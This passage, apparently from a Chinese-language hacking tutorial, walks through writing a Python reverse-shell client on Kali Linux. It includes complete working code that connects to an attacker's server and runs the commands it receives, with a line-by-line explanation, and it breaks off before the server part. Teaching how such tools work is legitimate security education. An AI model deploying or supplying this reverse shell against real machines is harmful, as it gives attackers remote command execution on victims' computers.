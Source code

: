 现在你已经对反向 Shell 有了概念性的理解，让我们来看看如何实现它。打开 Kali Linux 并在桌面上创建一个名为“shell”的文件夹。现在，我们将在这个文件夹中放置客户端和服务器程序。

我们将在 Kali Linux 中的默认文本编辑器 Mousepad 中编写程序，但你可以使用任何你喜欢的编辑器。运行以下命令打开 Mousepad 编辑器：

```
kali@kali:~$ mousepad &
```

以下程序从黑客的 TCP 服务器接收命令并在受害者的机器上执行，然后将结果发送回黑客。将以下反向 Shell 代码复制到编辑器中，并将文件保存为 *reverseShell.py*，保存在你刚刚创建的 shell 文件夹中。

```
   import sys

   from subprocess import Popen, PIPE

   from socket import *
➊ serverName = sys.argv[1]

   serverPort = 8000

   #Create IPv4(AF_INET), TCPSocket(Sock_Stream)
➋ clientSocket = socket(AF_INET, SOCK_STREAM)
➌ clientSocket.connect((serverName, serverPort))

   clientSocket.send('Bot reporting for duty'.encode()) ➍ 

   command = clientSocket.recv(4064).decode() ➎ 

   while command != "exit":

     ➏ proc = Popen(command.split(" "), stdout=PIPE, stderr=PIPE)

     ➐ result, err = proc.communicate()

        clientSocket.send(result)

        command = (clientSocket.recv(4064)).decode()

   clientSocket.close()
```

我们从运行程序时提供的第一个命令行参数中读取攻击者的 IP 地址 ➊。然后，我们创建一个新的客户端套接字 ➋。`AF_INET` 参数告诉套接字库创建一个 `IPV4` 套接字，`SOCK_STREAM` 参数则告诉套接字库将其创建为一个 TCP 套接字。如果你想创建一个 `IPV6` UDP 套接字，你需要提供 `AF_INET6` 和 `SOCK_DGRAM` 参数。

在你创建了套接字之后，你可以通过提供一个包含套接字的 IP 地址和端口号 ➌ 的 *元组* 来连接到黑客机器上的套接字。元组是不可修改的列表，我们使用圆括号 () 来声明，而不是方括号 []。在这种情况下，元组包含我们在程序中之前定义的变量，因此它应该像这样：(`172.217.12.238, 8000`)。

客户端应通知攻击者的机器，表明它已准备好接受命令。Python 的 `socket` 库设计用于发送二进制数据，因此如果你想发送字符串 `'Bot reporting for duty'`，必须先通过调用 `.encode()` ➔ 将其编码为二进制。类似地，从套接字接收到的所有信息都是二进制的，因此如果你想以字符串形式查看它，程序必须对其进行解码 ➎。值 `4064` 指定了要读取的最大字节数。

客户端将继续接受并执行命令，直到黑客发送 `exit` 命令。`Popen` 方法 ➏ 创建当前进程的副本或 *分叉*，称为 *子进程*。然后，它将命令传递给子进程，子进程在客户端上执行该命令。一旦子进程执行完命令，`proc.communicate()` 函数 ➐ 会读取结果，并将其发送到黑客的机器。

### **编写一个监听客户端连接的 TCP 服务器**

